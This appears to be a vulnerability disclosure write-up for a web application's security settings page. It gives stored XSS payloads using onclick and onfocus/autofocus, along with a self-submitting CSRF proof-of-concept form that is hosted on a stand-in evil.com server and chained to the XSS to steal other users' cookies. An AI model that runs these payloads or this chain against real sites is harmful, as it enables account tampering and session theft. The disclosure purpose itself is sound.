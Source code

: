 # XSS
1、	Log in later to the security settings page.

 ![maze](https://github.com/Kevil-hui/bug-report/blob/master/pic/1.jpg)  
 
2、	Click save and intercept the package. It is found that the real name is URL encoded and other parameters are transmitted in clear text.

  ![maze](https://github.com/Kevil-hui/bug-report/blob/master/pic/2.jpg)  
  
3、	XSS PAYLOAD1:1" onclick=alert(1)//   
    XSS PAYLOAD2：" onfocus=alert(1) autofocus ;'
    
You can set the submitted parameter of any of the five table boxes to 1 "onclick = alert (1) / /, and then replay the data package.
Because the onclick event needs to be triggered by clicking the table box, we can use the onfocus event and its autofocus attribute to automatically trigger the onfocus event, and modify the payload to: "onfocus = alert (1) autofocus;"

  ![maze]( https://github.com/Kevil-hui/bug-report/blob/master/pic/3.jpg)  
 
4、	XSS triggered successfully.

  ![maze]( https://github.com/Kevil-hui/bug-report/blob/master/pic/4.jpg)  
  
  
# CSRF
1、CSRF POC
Intercepts the request packet corresponding to "setting the security problem", because it is plaintext transmission, CSRF POC can be easily constructed, as follows

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://target.com/jsxsd/grsz/grsz_xggrxx.do" method="POST" id="csrf">
      <input type="hidden" name="realName" value="aa" />
      <input type="hidden" name="pwdQuestion1" value="11" />
      <input type="hidden" name="pwdAnswer1" value="3a3a" />
      <input type="hidden" name="pwdQuestion2" value="1" />
      <input type="hidden" name="pwdAnswer2" value="1&quot; onfocus=alert(/hacked!/) autofocus ;" />
      <input type="hidden" name="pageSize" value="101" />
      <input type="hidden" name="edit" value="11" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
<script>
    document.getElementById("csrf").submit();
</script>
</html>
```
2、Save the page to my server (simulating the attacker's server) at http://evil.com/jwcsrf.html

3、After confirming the login status, I will visit http://evil.com/target.com/jsxsd/jwcsrf.html

4、After accessing CSRF, x s s will be triggered automatically, because changing the password needs to verify the original password. You can inject XSS page into other users' background through CSRF, and get user cookies by xss

  ![maze]( https://github.com/Kevil-hui/bug-report/blob/master/pic/5.jpg)  
